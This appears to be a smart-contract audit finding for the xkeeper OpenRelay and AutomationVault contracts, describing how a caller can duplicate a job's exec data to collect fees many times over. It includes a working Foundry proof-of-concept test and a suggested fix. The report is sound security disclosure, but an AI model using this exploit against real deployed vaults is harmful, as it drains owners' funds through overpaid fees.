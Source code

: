 Muscular Licorice Orangutan

medium

# Repeat the same job multiple times to earn fees with OpenRelay

## Summary

`OpenRelay` incentivizes bots to execute the vault jobs by paying the bots approximately 120% of the gas spent on the job.
In combination with the authorization to `_ALL` addresses in `VaultAutomation`, it introduces an incentive for a bot
to copy a valid job data, say, from another transaction, replicate it multiple times in the same transaction and get
paid proportional to the number of copies. If executing the job multiple times does not bring any value to the vault owner,
they simply overpay in fees.

## Vulnerability Detail

`OpenRelay` calculates the fee to the address `_feeRecipient` as follows:

```js
  function exec(
    IAutomationVault _automationVault,
    IAutomationVault.ExecData[] calldata _execData,
    address _feeRecipient
  ) external {
    if (_execData.length == 0) revert OpenRelay_NoExecData();
    // Execute the automation vault counting the gas spent
    uint256 _initialGas = gasleft();
    _automationVault.exec(msg.sender, _execData, new IAutomationVault.FeeData[](0));
    uint256 _gasSpent = _initialGas - gasleft();
    // Calculate the payment for the relayer
    uint256 _payment = (_gasSpent + GAS_BONUS) * block.basefee * GAS_MULTIPLIER / BASE;
```

`AutomationVault` permits a job execution from an arbitrary address that calls `OpenRelay.exec`, provided
that the vault owner authorized the address `_ALL` with `addRelay`:

```js
    if (!_approvedCallers[msg.sender].contains(_relayCaller) && !_approvedCallers[msg.sender].contains(_ALL)) {
      revert AutomationVault_NotApprovedRelayCaller();
    }
```

An attacker introduces an array with `n` copies of `_execData[0]` and calls `exec` with the large array as
`_execData` and designates itself as `_feeRecipient`. If the job does not fail on the second job copy, the attacker
collects `n` times the reward that the original bot expected to receive.

See below a complete integration test that uses `BasicJob.workHard` as an example:

<details>
    <summary>See a complete test</summary>

```js
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.19;

import 'forge-std/console.sol';

import {CommonIntegrationTest} from '../integration/Common.t.sol';

import {IAutomationVault} from '../../interfaces/core/IAutomationVault.sol';
import {_ALL} from '../../utils/Constants.sol';

contract IntegrationOpenRelay is CommonIntegrationTest {
  function setUp() public override {
    // AutomationVault setup as OpenRelay.t.sol except the owner authorizes relaying to ALL
    CommonIntegrationTest.setUp();

    // Bot callers array: the owner authorizs the OpenRelay calls to all
    address[] memory _bots = new address[](1);
    _bots[0] = _ALL;

    // Job selectors array
    bytes4[] memory _jobSelectors = new bytes4[](2);
    _jobSelectors[0] = basicJob.work.selector;
    _jobSelectors[1] = basicJob.workHard.selector;

    // Job data array
    IAutomationVault.JobData[] memory _jobsData = new IAutomationVault.JobData[](1);
    _jobsData[0] = IAutomationVault.JobData(address(basicJob), _jobSelectors);

    startHoax(owner);

    // AutomationVault approve relay data
    automationVault.addRelay(address(openRelay), _bots, _jobsData);
    address(automationVault).call{value: 100 ether}('');
  }

  function test_rewards_once() public {
    doExec(1);
  }

  function test_rewards_repeated() public {
    doExec(100);
  }

  function doExec(uint256 times) public {
    uint16 _howHard = 10;

    address attacker = makeAddr('attacker');
    vm.deal(attacker, 1 ether);
    assertEq(attacker.balance, 1 ether);

    // repeat the same job multiple times
    IAutomationVault.ExecData[] memory _execData = new IAutomationVault.ExecData[](times);
    for (uint256 i = 0; i < times; i++) {
      _execData[i] =
        IAutomationVault.ExecData(address(basicJob), abi.encodeWithSelector(basicJob.workHard.selector, _howHard));
    }

    vm.startPrank(attacker);

    // Calculate the exec gas cost
    uint256 _gasBeforeExec = gasleft();
    openRelay.exec(automationVault, _execData, attacker);
    uint256 _gasAfterExec = gasleft();

    // Calculate tx cost
    uint256 _gasDiff = _gasBeforeExec - _gasAfterExec;
    uint256 _txCost = _gasDiff * block.basefee;

    // Calculate payment
    uint256 _payment = (_gasDiff + openRelay.GAS_BONUS()) * block.basefee * openRelay.GAS_MULTIPLIER() / openRelay.BASE();

    console.log('gas diff:', _gasDiff);
    console.log('txCost:', _txCost);
    console.log('calculated payment:', _payment);
    console.log('actual payment - gas:', attacker.balance - 1 ether);

    assertGt(attacker.balance - 1 ether, _payment - _txCost);
  }
}
```
</details>


## Impact

The owner significantly overpays for the job being executed multiple times, unless there is additional protection mechanism
in the job itself that prevents it from being executed more then once.

## Code Snippet

https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/relays/OpenRelay.sol#L28-L34
https://github.com/sherlock-audit/2024-04-xkeeper/blob/main/xkeeper-core/solidity/contracts/core/AutomationVault.sol#L399

## Tool used

Manual Review

## Recommendation

Save the block number in `AutomationVault` when a job was executed the last time. If the job is executed in the same block twice, or it is executed too early after the last execution, revert. If this is considered to be too expensive, explicitly specify in the documentation that a contract should implement a protection mechanism against a job being executed multiple times in the same transaction.